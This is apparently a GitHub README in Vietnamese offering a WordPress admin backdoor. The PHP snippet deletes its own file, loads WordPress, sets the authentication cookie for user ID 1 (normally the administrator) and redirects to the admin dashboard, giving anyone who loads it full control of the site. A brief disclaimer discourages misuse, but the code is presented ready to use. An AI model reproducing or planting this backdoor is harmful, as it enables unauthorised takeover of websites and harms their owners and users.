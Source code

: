 # Code Backdoor Wordpress
- Đây là dòng code backdoor admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.

```c
<?php
@unlink(__FILE__);

require('../../../wp-blog-header.php');
require('../../../wp-includes/pluggable.php');
$user_info = get_userdata(1);
// Automatic login //
$username = $user_info->user_login;
$user = get_user_by('login', $username );
// Redirect URL //
if ( !is_wp_error( $user ) )
{
    wp_clear_auth_cookie();
    wp_set_current_user ( $user->ID );
    wp_set_auth_cookie  ( $user->ID );

    $redirect_to = user_admin_url();
    wp_safe_redirect( $redirect_to );

    exit();
}
?>
```
